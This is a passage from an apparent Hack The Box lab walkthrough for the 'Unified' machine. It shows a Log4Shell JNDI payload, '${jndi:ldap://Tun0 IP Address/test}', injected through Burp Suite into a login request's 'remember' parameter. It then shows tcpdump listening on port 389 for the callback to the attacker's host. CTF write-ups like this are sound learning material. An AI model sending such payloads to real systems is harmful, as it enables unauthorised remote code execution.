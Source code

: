 This [blog](https://www.hackthebox.com/blog/It-is-Okay-to-Use-Writeups) is written by two talented person [ippsec](https://twitter.com/ippsec) & [0xdf](https://twitter.com/0xdf)

Enough with all that, Let's test it. First I'm gonna fire up the `burpsuite` to `intercept` the `/api/login` endpoint. So, I can alter the request to be specific the `"remember"` parameter. Now, I need to put this payload :

```java
${jndi:ldap://Tun0 IP Address/test}
```

> **JNDI** (`Java Naming and Directory Interface API`). By making calls to this API, applications locate resources and other program objects. 
>
> **LDAP** `(Lightweight Directory Access Protocol`) The default port that LDAP runs on is `port 389`.

![1](/assets/images/htb/unified/burpsuite.png)



# <font color="#9bffc8">tcpdump</font>

Before sending the payload. First, let's set up the monitoring network on port 389 with `tcpdump`. This tool will let us monitor the network traffic/dump the network. So, open up another terminal and type:

```bash
sudo tcpdump -i tun0 port 389
```

After the tcpdump has been started, click the `Send` button.

![1](/assets/images/htb/unified/tcpdump.png)
